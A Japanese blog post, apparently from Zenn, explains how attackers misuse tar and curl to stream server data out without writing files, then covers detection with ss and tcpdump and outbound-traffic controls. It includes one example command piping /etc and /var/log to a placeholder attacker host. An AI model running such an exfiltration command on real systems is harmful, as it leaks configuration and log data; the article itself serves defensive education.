

## はじめに

サーバー運用において、ログファイルの回収やバックアップの取得は欠かせない業務の一つです。その際、アーカイブツールである `tar` と通信ツールである `curl` の組み合わせは定石とも言えます。しかし、これらの「いつものツール」がサイバー攻撃において、機密情報を外部に持ち出すための強力な手段として悪用されるケースが多発しています。

本記事では、エンジニアが日常的に利用するコマンドが、情報流出（データエクスフィルトレーション）のプロセスでどのように悪用されるのか、その原理と対策を解説します。

## 対象者

- サーバーの構築や監視を担当しているインフラエンジニア
- 機密情報を扱うWebアプリケーションを運用している方
- 最新のサイバー攻撃の手口を知って対策したい方

## 情報の持ち出しにおける「環境寄生」

システム内部への侵入を果たし、管理者権限の奪取などに成功した攻撃者の最終目的の多くは、データベースの認証情報やクラウドのアクセスキー、あるいは顧客データといった機密情報の窃取です。

かつては専用のデータ転送ツールを外部から持ち込んでデータを送信する手口がありました。しかし、昨今の高性能なセキュリティ製品は、見慣れない通信プログラムの挙動を即座に検知します。そのため攻撃者は、すでにサーバー内に存在し、日頃からシステム管理者がバックアップ用途などで利用している正規のコマンド群に目を向けました。

正規ツールを利用したデータの持ち出しは、セキュリティアラートを引き起こしにくく、検知から逃れやすいという「環境寄生型攻撃（Living off the Land）」の恐ろしい側面です。

## 攻撃プロセスとメカニズム

サーバー内部で価値のある情報を探し当てた攻撃者は、それらを一つのファイルにまとめて自身のサーバーへ送信しようと試みます。ここで活躍するのが `tar` と `curl` の組み合わせです。

例えば、サーバー内の重要な設定ファイルやログを外部の攻撃者サーバーへ送信する際、以下のようなコマンドストリームが悪用されます。

```bash
$ tar czf - /etc /var/log | curl -T - http://attacker.example.com/upload
```

この一行のコマンドは、以下の二つの処理をメモリ上で完結させます。
まず `tar` コマンド標準出力への出力機能（`-f -`）を利用し、指定したディレクトリ群を圧縮してストリームデータに変換します。次に、パイプで受けたそのストリームデータを `curl` のアップロード機能（`-T -`）を使い、外部のサーバーへ直接送信します。



:::message alert
この手法最大の脅威は、一つ前の「情報を圧縮したアーカイブファイル」をディスク上のどこにも保存していない点です。ファイルシステムを経由せずに大容量のデータが外部へ流出していくため、ファイルの新規作成やアクセス監視といった従来の防御網を軽々とすり抜けてしまいます。
:::

#### コラム（ネットワークの監視による検知）

ディスク上のファイル監視が機能しない以上、この攻撃を検知するにはリアルタイムのネットワークセッション監視が有効になります。特に、普段はWebサービスを提供しているだけのサーバーが、突如として特定の外部IPアドレスに向けて継続的な大容量データを送信し始めた場合、それはデータ流出の明白なサインとなります。

```bash
# サーバーで実行中の不要なネットワークセッションを確認する
$ ss -antp | grep curl
ESTAB  0  123456  192.0.2.100:45678  203.0.113.10:80  users:(("curl",pid=9876,fd=3))

# より詳細に通信パケットをキャプチャして確認する例
$ tcpdump -i eth0 -n dst port 80 or 443
```

## サイバー攻撃に対する防衛手段

このように標準ツールを組み合わせた情報持ち出しに対しては、コマンドの実行を禁止するだけでは業務に支障が出るため、ネットワーク層での防御が鍵となります。

第一の対策は、アウトバウンドネットワーク通信の厳格な管理（出口対策）です。インターネットからサーバー内部への通信（インバウンド）は厳密にブロックしていても、サーバーから外部への通信（アウトバウンド）は制限が甘くなっているケースが少なくありません。サーバーから外部への通信は、ソフトウェアのアップデートや特定のAPI連携など、必要な通信先とポートのみを許可するホワイトリスト方式を採用することで、情報の持ち出しをインフラの境界で食い止めることができます。

第二の対策は、異常な通信量の監視です。正規のバックアップ通信などとの判別は難しいですが、普段は発生しないような大容量のデータ送信や、深夜帯など予期せぬ時間帯の長時間の通信ストリームを検知する仕組みを導入することで、万が一持ち出しが始まった際にも早期に遮断できる可能性が高まります。

## おわりに

私自身、この手口を知ったとき、自分がインフラの移行作業などで便利に使っていた「パイプで繋いで直接転送する」というテクニックが、そのままデータ窃取のベストプラクティスとして攻撃者に愛用されているという事実に大きなショックを受けました。

自分にとって便利な道具は、攻撃者にとっても極めて都合の良い道具になりえます。システムの内部から外部へ向かってどのようなデータが流れているか、出口の番人としてアウトバウンド通信に少しでも意識を向けることが、情報流出を防ぐための大切な第一歩となるはずです。

本記事が、サーバー運用のセキュリティ方針を見直す参考となれば幸いです。

---

### SNS共有用テンプレート

🆕 Zenn記事を公開しました！
【📦いつものバックアップ手順が牙をむく：tarとcurlを悪用した情報漏洩の脅威と対策】

普段のインフラ業務で使う便利なワンライナー、実は攻撃者にとっても最高の情報持ち出しツールだったりします。
✅ 環境寄生型攻撃によるデータ窃取の仕組み
✅ tarとcurlを組み合わせたファイルレスな持ち出し
✅ アウトバウンド通信制限（出口対策）の重要性

▼記事はこちら
https://zenn.dev/xxx/articles/lotl-data-exfiltration
#セキュリティ #インフラ #Linux #サイバー攻撃 #エンジニア
